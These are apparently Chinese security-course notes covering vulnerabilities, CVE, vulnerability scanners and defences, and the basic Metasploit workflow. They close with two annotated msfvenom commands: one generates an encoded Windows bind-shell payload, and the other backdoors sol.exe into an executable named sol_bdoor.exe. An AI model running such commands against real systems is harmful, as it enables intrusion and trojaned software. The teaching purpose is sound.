 **漏洞**一般指硬件、软件或策略上存在的的安全缺陷，从而使得攻击者能够在**未授权**的情况下访问、控制系统

**CVE**：安全漏洞**命名索引**的业界事实标准。

1）Nessus：闭源，综合

2）OpenVAS：开源，综合

3）AWVA：闭源，Web漏扫

**漏洞扫描防范措施**：

:one:及时**修补漏洞**

:two:检测和**防御漏洞扫描行为**：部署网络入侵检测系统: Snort；配置防火墙规则缩小攻击面

:three:**渗透测试**

## 3.Metasploit框架

### 1）MSF简介

**MSF**(Metasploit Framework)：开源渗透测试工具

### 2）MSF的用法

攻击的基本套路：

1. search：搜索模块或者漏洞相关的信息

2. use：加载某个模块

3. show options：查看于当前模块相关的选项（show payloads）

4. set：设置选项（set payload ````）

5. run/exploit：运行模块

### 3）msfvenom

Metasploit框架下的独立程序，用于**生成载荷**

```c
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python
◆/*体系结构-a*/为x86
◆/*平台--platform*/为Window
◆/*载荷-p*/为windows/shell/bin_tcp
◆/*编码器-e*/为x86/shikata_ga_nai
◆/*要避免的字符-b*/为\x00
◆编码/*迭代次数-i*/为3
◆/*输出格式-f*/为python
```

```c
msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b '\x00' -f exe -o sol_bdoor.exe
◆体系结构为x86，平台为Window
◆以可执行文件sol.exe作为/*模板-x*/
◆保持模板的正常行为
◆载荷为windows/messagebox
◆要避免的字符为\x00
◆输出格式为exe
◆输出为可执行文件sol_bdoor.exe
```
